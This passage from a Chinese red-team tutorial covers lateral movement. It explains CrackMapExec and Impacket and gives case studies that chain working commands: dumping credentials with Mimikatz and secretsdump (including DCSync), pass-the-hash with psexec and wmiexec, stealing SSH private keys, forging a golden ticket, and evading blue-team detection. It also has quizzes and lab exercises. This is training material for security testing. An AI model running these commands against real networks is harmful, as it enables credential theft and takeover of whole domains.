crackmapexec ssh 192.168.1.0/24 -u root -p 'Pass123!'
crackmapexec ssh 192.168.1.100 -u root -p 'Pass123!' -x "whoami"
```

**LDAP：**
```bash
crackmapexec ldap 192.168.1.100 -u administrator -p 'Pass123!' --users
```

### 8.5 CME常用模块

CME有很多模块（Modules），
可以用`-M 模块名`来调用：

```bash
# 列出所有模块
crackmapexec smb -L

# 查看模块帮助
crackmapexec smb -M 模块名 --options
```

**常用模块：**
- `metinject` — 注入Shellcode
- `mimikatz` — 执行Mimikatz
- `lsassy` — 抓密码
- `smbexec` — SMBExec
- `web_delivery` — Web交付
- `printnightmare` — PrintNightmare漏洞
- `zerologon` — ZeroLogon漏洞
- `nopac` — NoPAC漏洞
- ...

CME真的非常强大，
强烈建议深入学习！

**图48-5 CrackMapExec 功能架构与协议支持图**



---

## 📦 Impacket 套件

### 9.1 Impacket简介

Impacket是一个Python写的
网络协议工具包，
里面有超级多好用的工具，
是内网渗透必备！

**Impacket的主要工具：**

| 工具 | 作用 |
|------|------|
| psexec.py | PsExec远程执行 |
| wmiexec.py | WMI远程执行 |
| smbexec.py | SMB远程执行 |
| atexec.py | 计划任务远程执行 |
| dcomexec.py | DCOM远程执行 |
| smbclient.py | SMB客户端 |
| secretsdump.py | 转储凭据（SAM、LSA、NTDS） |
| GetUserSPNs.py | Kerberoast |
| GetNPUsers.py | AS-REP Roasting |
| lookupsid.py | SID枚举 |
| rpcclient.py | RPC客户端 |
| wmiquery.py | WMI查询 |
| mssqlclient.py | MSSQL客户端 |
| ... | ... |

### 9.2 远程执行工具

**psexec.py：**
```bash
# 交互式Shell
psexec.py 域名/用户名:密码@目标IP
psexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

**wmiexec.py：**
```bash
wmiexec.py 域名/用户名:密码@目标IP
wmiexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

**smbexec.py：**
```bash
smbexec.py 域名/用户名:密码@目标IP
smbexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

**atexec.py：**
```bash
# 通过计划任务执行命令
atexec.py 域名/用户名:密码@目标IP "命令"
atexec.py 域名/用户名@目标IP -hashes :NTLM_Hash "命令"
```

**dcomexec.py：**
```bash
dcomexec.py 域名/用户名:密码@目标IP
dcomexec.py 域名/用户名@目标IP -hashes :NTLM_Hash
```

### 9.3 凭据转储工具

**secretsdump.py：**
这个工具非常强大，
可以从目标机器上转储各种凭据。

```bash
# 本地转储（需要先获取SAM和SYSTEM文件）
secretsdump.py -sam SAM -system SYSTEM LOCAL

# 远程转储（需要管理员权限）
secretsdump.py 域名/用户名:密码@目标IP
secretsdump.py 域名/用户名@目标IP -hashes :NTLM_Hash

# DCSync（域控同步，需要域管理员权限）
secretsdump.py 域名/用户名:密码@域控IP -just-dc
secretsdump.py 域名/用户名:密码@域控IP -just-dc-user krbtgt
```

### 9.4 Kerberos相关工具

**GetUserSPNs.py（Kerberoast）：**
```bash
# 查找SPN并请求票据
GetUserSPNs.py 域名/用户名:密码@域控IP -request
```

**GetNPUsers.py（AS-REP Roasting）：**
```bash
# 查找不需要预认证的用户
GetNPUsers.py 域名/ -usersfile users.txt -dc-ip 域控IP
```

**ticketer.py（创建票据）：**
```bash
# 创建黄金票据
ticketer.py -nthash krbtgt的Hash -domain 域名 -domain-sid 域SID -user 用户名
```

### 9.5 其他工具

**smbclient.py：**
SMB客户端，可以上传下载文件。
```bash
smbclient.py 域名/用户名:密码@目标IP
```

**lookupsid.py：**
通过SID枚举用户和组。
```bash
lookupsid.py 域名/用户名:密码@目标IP
```

**mssqlclient.py：**
MSSQL数据库客户端。
```bash
mssqlclient.py 用户名:密码@目标IP -windows-auth
```

Impacket还有很多很多工具，
这里就不一一列举了，
大家可以自己去探索。

**图48-6 Impacket 套件工具分类图**



---

## 🔄 其他横向移动方法

### 10.1 计划任务横向移动

可以通过计划任务在远程机器上执行命令。

**方法：**
1. 复制可执行文件到目标共享
2. 创建远程计划任务
3. 执行任务
4. 清理痕迹

**工具：**
- `at` 命令（老系统）
- `schtasks` 命令
- Impacket的`atexec.py`

### 10.2 服务横向移动

通过创建/修改服务来执行代码。
PsExec本质上就是这个原理。

**工具：**
- `sc` 命令
- 自定义的服务控制程序

### 10.3 注册表横向移动

通过远程修改注册表来实现执行。

比如：
- 修改Run键值
- 修改映像劫持
- 设置WMI事件订阅

### 10.4 组策略（GPO）横向移动

如果你有权限修改组策略，
可以通过组策略来批量执行命令，
一次性拿下域内所有机器。

**方法：**
1. 创建或修改GPO
2. 添加启动脚本/登录脚本
3. 等待组策略刷新
4. 所有应用了这个GPO的机器都会执行

### 10.5 SCCM/WSUS横向移动

如果目标环境有SCCM（System Center Configuration Manager）
或者WSUS（Windows Server Update Services），
也可以利用它们来横向移动。

因为这些管理系统
有权限在所有客户端上执行代码。

### 10.6 Exchange横向移动

如果有Exchange服务器，
也可以通过Exchange来横向移动，
比如：
- 利用Exchange的漏洞
- 通过Outlook规则
- 通过Exchange Web Services

> 💡 **深入理解：BloodHound 凭什么能找到攻击路径？——图论分析的力量**
>
> BloodHound 是内网渗透（特别是域渗透）中的神器。
> 很多人只是知道"它能找最短路径到域管"，
> 但不理解它背后的计算原理。
>
> BloodHound 本质上是一个**图数据库分析工具**：
>
> ```
> 第一步：收集（SharpHound）
> SharpHound 在域内机器上运行，收集所有关系数据：
>   - 用户是谁？属于哪些组？
>   - 计算机有哪些？谁登录过？
>   - ACL（访问控制列表）：谁对谁有什么权限？
>   - 组策略：哪些GPO链接到哪些OU？
>   - 委派：哪些账号配置了委派？
>   - 会话：谁当前登录在哪些机器上？
>
> 第二步：建模（Neo4j图数据库）
> 把收集到的数据导入图数据库：
>   节点（Node） = 用户、计算机、组、OU、GPO
>   边（Edge） = 关系
>     - "user1" --MemberOf--> "IT组" 
>     - "IT组" --AdminTo--> "server01"
>     - "server01" --HasSession--> "域管理员"
>
> 第三步：路径分析（图算法）
> 在这个关系图上运行图论算法：
>   - 最短路径算法（Dijkstra/BFS）
>   - 问：从"user1"到"Domain Admins"的最短路径是什么？
>   - 输出：user1 → IT组 → server01 → 域管理员！
> ```
>
> 这就像一个"社交关系网络分析器"：
> 如果把域比作一个社交网络：
> - 用户是"人"
> - 组是"圈子"
> - 权限是"谁认识谁"、"谁能进谁家"
>
> BloodHound 做的事情就是：
> **在这个社交网络中，自动找出"最容易被利用的关系链条"**。
>
> 以前安全人员要手工一个个查`net group`、`net user`、`whoami /groups`，
> 现在 BloodHound 直接给你画出"最短攻击路径"的图，
> 一目了然。
>
> **这就是为什么国内红队几乎人人在用 BloodHound：
> 它把"靠经验猜测"变成了"靠数据计算"。**

---

## 🎯 真实案例

### 案例1：哈希传递 + PsExec横向移动

**场景：**
已经拿到了一台服务器的System权限，
用Mimikatz抓到了管理员的NTLM Hash，
想用这个Hash打内网的其他机器。

**过程：**

**第一步：抓取Hash**
在已控制的机器上运行Mimikatz：
```
privilege::debug
sekurlsa::logonpasswords
```
抓到了域管理员的NTLM Hash。

**第二步：扫描存活主机和开放端口**
```bash
nmap -p 445 10.0.0.0/24 --open
```
找到几十台开了445端口的机器。

**第三步：验证Hash**
用CME批量验证：
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -d corp.com -H 518b98ad4178a53695dc997aa02d455c
```
发现域管理员是所有机器的本地管理员。

**第四步：横向移动**
挑一台有价值的服务器，
用psexec.py打过去：
```bash
psexec.py corp.com/administrator@10.0.0.20 -hashes :518b98ad4178a53695dc997aa02d455c
```
成功拿到System权限的Shell。

**第五步：继续收集凭据**
在新机器上继续抓密码，
又拿到了更多凭据。

**第六步：滚雪球**
用新的凭据继续打更多机器，
一步步控制整个内网。

**总结：**
- 哈希传递 + PsExec是经典组合
- 拿到一个高权限Hash可以打很多机器
- 内网很多时候就是凭据滚雪球

---

### 案例2：WinRM + evil-winrm横向移动

**场景：**
护网行动中，
通过Web漏洞拿到了一台Web服务器的Shell，
但是这台机器是IIS应用池权限，
提权困难。
不过收集到了一个域用户的密码，
想试试WinRM横向移动。

**过程：**

**第一步：信息收集**
扫内网，看看哪些机器开了WinRM（5985端口）。
```bash
nmap -p 5985 10.0.1.0/24 --open
```
找到了好几台。

**第二步：验证凭据**
用CME验证：
```bash
crackmapexec winrm 10.0.1.0/24 -u webadmin -d corp.com -p 'Web@dmin123'
```
发现webadmin对其中两台服务器有WinRM访问权限。

**第三步：用evil-winrm连接**
```bash
evil-winrm -i 10.0.1.30 -u webadmin -p 'Web@dmin123'
```
成功连上，拿到了PowerShell。

**第四步：收集信息和凭据**
在新机器上：
- 收集系统信息
- 找配置文件里的密码
- 看看有没有更高的权限

发现这台机器上
有一个服务账号的明文密码，
权限更高。

**第五步：继续横向**
用服务账号继续打其他机器，
逐步扩大战果。

**总结：**
- 即使没有管理员权限，普通用户也能横向移动
- WinRM是很好的横向移动渠道
- evil-winrm非常好用
- 提权困难的时候可以试试横向移动，换个环境可能更容易提权

---

### 案例3：WMI横向移动（更隐蔽）

**场景：**
目标有比较完善的监控，
PsExec一用就被检测到了，
试试更隐蔽的WMI。

**过程：**

**第一步：尝试PsExec被检测**
一开始用PsExec，
刚打了两台就被蓝队发现了，
赶紧换方法。

**第二步：改用WMI**
用wmiexec.py：
```bash
wmiexec.py corp.com/admin@10.0.0.15 -hashes :518b98ad4178a53695dc997aa02d455c
```
成功连上，
而且这次没有触发告警。

**第三步：低调操作**
在WMI Shell里：
- 慢慢收集信息
- 不做大的改动
- 每次执行完命令等一会儿

**第四步：用WMI做信息收集**
```bash
# 枚举进程
wmic /node:10.0.0.20 process get name

# 枚举服务
wmic /node:10.0.0.20 service get name,state
```

**第五步：找机会提权/拿更高权限**
慢慢摸，
找到机会就进一步，
不急于求成。

**总结：**
- 不同的横向移动方法，隐蔽性不一样
- PsExec动静大，容易被检测
- WMI相对隐蔽一些
- 要根据目标的防护情况选择合适的方法
- 实战中要低调，不要太暴力

---

### 案例4：SSH密钥横向移动

**场景：**
拿到了一台Linux服务器的root权限，
想横向移动到其他Linux机器。

**过程：**

**第一步：本机信息收集**
拿到Shell后，先找SSH密钥：
```bash
ls -la ~/.ssh/
# 发现有 id_rsa 和 authorized_keys

cat ~/.ssh/id_rsa
# 拿到了私钥

cat ~/.ssh/known_hosts
# 看到这台机器连过哪些机器
```

**第二步：找更多密钥**
```bash
# 看看其他用户的家目录
ls -la /home/*/.ssh/

# 找配置文件里的密码
grep -r "password" /etc/ 2>/dev/null
grep -r "passwd" /var/www/ 2>/dev/null
```

**第三步：测试密钥**
用拿到的私钥试试known_hosts里的机器：
```bash
ssh -i id_rsa root@10.0.0.10
# 直接连上去了！

ssh -i id_rsa root@10.0.0.11
# 也能连上

ssh -i id_rsa root@10.0.0.12
# 这个不行
```

**第四步：继续收集**
在新连上的机器上继续找密钥，
又找到了更多可以访问的机器。

**第五步：逐步控制**
就像串糖葫芦一样，
一台接一台，
最后控制了几十台Linux服务器。

**总结：**
- SSH密钥是Linux横向移动的一大利器
- 很多企业的服务器之间都配置了免密登录
- 拿到一个私钥可能能登录很多机器
- 要注意收集各种位置的密钥

---

### 案例5：BloodHound路径 + 多方法组合

**场景：**
护网行动中，
拿到一个普通域用户的权限，
通过BloodHound找到了攻击路径，
需要用多种横向移动方法组合才能打下来。

**攻击路径：**
```
普通用户A → (GenericAll) → 用户B → (组关系) → 组C → (LocalAdmin) → 机器D → (域管理员会话) → 域管理员
```

**过程：**

**第一步：重置用户B的密码**
因为用户A对用户B有GenericAll权限，
可以直接改密码。
用PowerView或者Net命令：
```powershell
Set-DomainUserPassword -Identity 用户B -AccountPassword (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)
```

**第二步：以用户B的身份操作**
用runas或者PtH：
```cmd
runas /user:域\用户B cmd
```

**第三步：访问机器D**
用户B在组C里，
组C对机器D有本地管理员权限。
用PsExec或者WMI登录机器D：
```bash
wmiexec.py corp.com/用户B:NewPass123!@机器D
```

**第四步：在机器D上抓密码**
机器D上有域管理员登录过，
抓Hash或者票据：
```
privilege::debug
sekurlsa::logonpasswords
```
抓到了域管理员的Hash。

**第五步：登录域控**
用域管理员的Hash，
PsExec打域控：
```bash
psexec.py corp.com/administrator@域控IP -hashes :域管理员Hash
```
成功拿下域控！

**总结：**
- 复杂的内网环境需要多种方法组合
- BloodHound能帮你找到攻击路径
- 横向移动不是只有一种方法，要灵活组合
- ACL、组关系、权限分配都是可以利用的

---

## ✏️ 课后习题

### 一、选择题（15道）

1. 以下哪个是哈希传递（Pass-the-Hash）的英文缩写？
   A. PtH
   B. PtT
   C. PTH
   D. PTT

2. 以下哪个工具不支持哈希传递？
   A. Mimikatz
   B. CrackMapExec
   C. Impacket
   D. 记事本

3. PsExec默认使用哪个端口？
   A. 22
   B. 80
   C. 445
   D. 3389

4. WMI默认使用的协议是？
   A. HTTP
   B. SMB
   C. RPC/DCOM
   D. SSH

5. WinRM的HTTP默认端口是？
   A. 80
   B. 443
   C. 5985
   D. 5986

6. RDP的默认端口是？
   A. 22
   B. 445
   C. 3389
   D. 5985

7. 以下哪个工具是专门用来做WinRM渗透的？
   A. PsExec
   B. evil-winrm
   C. Mimikatz
   D. BloodHound

8. CrackMapExec的缩写是？
   A. CME
   B. CMC
   C. CMX
   D. CKE

9. Impacket套件中，用来做WMI远程执行的工具是？
   A. psexec.py
   B. wmiexec.py
   C. smbexec.py
   D. atexec.py

10. 以下哪个不是常用的横向移动方法？
    A. PsExec
    B. WMI
    C. 重装系统
    D. WinRM

11. 票据传递（Pass-the-Ticket）使用的是哪种认证协议？
    A. NTLM
    B. Kerberos
    C. LDAP
    D. SMB

12. 以下哪个工具可以用来创建黄金票据？
    A. Rubeus
    B. Nmap
    C. Wireshark
    D. PuTTY

13. Linux下SSH私钥文件的正确权限是？
    A. 777
    B. 755
    C. 600
    D. 644

14. CrackMapExec中，执行cmd命令的参数是？
    A. -c
    B. -x
    C. -X
    D. -e

15. 以下哪种横向移动方法相对最隐蔽？
    A. PsExec
    B. WMI
    C. DCOM
    D. 都一样

### 二、填空题（5道）

1. 哈希传递使用的是密码的 ______ Hash。
2. PsExec通过创建 ______ 来执行远程命令。
3. WinRM的HTTP端口是 ______，HTTPS端口是 ______。
4. Impacket套件中，通过计划任务执行命令的工具是 ______。
5. Kerberos票据中，TGT的中文名称是 ______，ST的中文名称是 ______。

### 三、简答题（5道）

1. 什么是横向移动？为什么横向移动很重要？
2. 什么是哈希传递（PtH）？它的原理是什么？
3. 列举至少5种常用的横向移动方法，并简单说明。
4. PsExec、WMI、WinRM三种横向移动方法各有什么优缺点？
5. 什么是票据传递（PtT）？和哈希传递有什么区别？

### 四、实操题（5道）

1. 搭建一个两台机器的实验环境，练习使用PsExec进行横向移动（用密码和Hash各试一次）。
2. 练习使用WMI/wmiexec.py进行远程命令执行。
3. 如果环境允许，开启WinRM，练习使用evil-winrm。
4. 练习使用CrackMapExec的SMB模块（主机探测、凭据验证、命令执行）。
5. 练习使用Impacket套件的常用工具（psexec.py、wmiexec.py、smbexec.py）。

**图48-7 横向移动方法选择决策图**



---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了横向移动技术，
内容非常多，也非常重要，
都是内网渗透的核心技术。

**重点回顾：**

1. **哈希传递（PtH）**
   - 原理：用NTLM Hash直接认证
   - 工具：Mimikatz、CME、Impacket、MSF
   - 适用于NTLM认证的环境

2. **票据传递（PtT）**
   - 原理：用Kerberos票据认证
   - 工具：Mimikatz、Rubeus
   - 白银票据、黄金票据
   - 适用于Kerberos认证的域环境

3. **PsExec**
   - 微软官方工具
   - 基于SMB，创建服务执行
   - 简单但动静大，容易被检测
   - 工具：PsExec、MSF psexec模块、psexec.py

4. **WMI**
   - Windows管理接口
   - 相对PsExec更隐蔽
   - 工具：wmic、wmiexec.py、dcomexec.py

5. **WinRM / PSRemoting**
   - 基于HTTP/HTTPS的远程管理
   - 越来越常用
   - 工具：PowerShell、evil-winrm、CME

6. **RDP**
   - 远程桌面，图形界面
   - 也可以用Hash（Restricted Admin模式）
   - 工具：mstsc、xfreerdp

7. **SSH**
   - Linux远程登录
   - 密码登录、密钥登录
   - 注意收集私钥

8. **CrackMapExec**
   - 内网神器，支持多种协议
   - 凭据验证、命令执行、信息枚举
   - 功能强大，强烈推荐

9. **Impacket套件**
   - 一堆好用的Python工具
   - psexec.py、wmiexec.py、smbexec.py、secretsdump.py...
   - 内网必备

10. **五个实战案例**
    - 哈希传递 + PsExec
    - WinRM + evil-winrm
    - WMI横向移动（更隐蔽）
    - SSH密钥横向移动
    - 多方法组合

横向移动的方法很多，
不需要全部精通，
但至少要掌握几种常用的，
实战中根据情况灵活选择。

下一章我们学习域渗透基础，
看看域环境下的渗透有什么不同。

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day053-senior-提权模块总结)
- [➡️ 下一章：---](/redteam/day055-senior-哈希传递与票据传递)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
